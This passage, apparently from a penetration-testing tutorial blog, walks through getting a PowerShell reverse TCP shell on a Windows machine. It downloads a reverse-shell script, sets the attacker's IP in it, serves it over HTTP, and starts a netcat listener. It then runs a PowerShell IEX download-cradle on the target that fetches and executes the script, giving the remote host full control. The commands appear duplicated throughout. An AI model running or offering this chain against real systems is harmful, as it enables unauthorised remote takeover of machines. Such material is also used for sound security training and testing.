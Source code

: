 ### PowerShell Reverse TCP   

Now just use PowerShell script to communicate with a remote host. Instead of process pipes, all shells in this environment use the Invoke-Expression command. The remote host has complete control over the client at all times.

We have to go to the website listed below. It is a Github website, you must download the link.

wget https://raw.githubusercontent.com/ivan-sincek/powershell-reverse-tcp/master/src/powershell_reverse_tcp.ps1

wget https://raw.githubusercontent.com/ivan-sincek/powershell-reverse-tcp/master/src/powershell_reverse_tcp.ps1

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
wget https://raw.githubusercontent.com/ivan-sincek/powershell-reverse-tcp/master/src/powershell_reverse_tcp.ps1
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjC7IWCO7bLYty4L5vkj4d85H1QyX380A4WHbc6deoZL5E_nNedAHOULYBjwoyjORXk7qmC0K3oPzwdyRb07knSX75Wj4Xoq7tv_cxrpRv0iDTSt7RX29OlI01gg3mdceH6tBhLnE23k0_iQS-WQCGcO6jEM2T0HodePDft1_T8EDgMo_iv-2tjVcSfcg=s16000)

When the script has been downloaded, simply examine the code within it and replace the IP address given there with our local IP address (Kali IP address). Once the changes are done save the file and start the python server.

python -m SimpleHTTPServer 80

python -m SimpleHTTPServer 80

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
python -m SimpleHTTPServer 80
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjmRHyoe_GLHGx4lKpDl4d3z5obilyzgJ5qmpV4Pidb8KcP04CxIER6TmzIg2mrJB8Dm2O9-HW61pw3A_JaETTojgvAxfgbEGK-HCfPmb8MFQ_5DGJfk4BY7qrV4IvnUklGhUOOX25p24T2Ag9RKrXYK_DKixAXhEmmgMBktsT_sdaGXGJlkHPlhMTyqg=s16000)

After that start the Netcat listener on port 9000 for obtaining a reverse connection.

nc -vlp 9000

nc -vlp 9000

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
nc -vlp 9000
</pre>

We must run the following command into the command prompt of the Windows machine. It will help us in running the reverse tcp.ps1 file. Remember that the IP address should be your local IP address (Kali IP address). The command will assist us in obtaining the reverse shell.

powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/powershell_reverse_tcp.ps1')

powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/powershell_reverse_tcp.ps1')

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/powershell_reverse_tcp.ps1')
</pre>
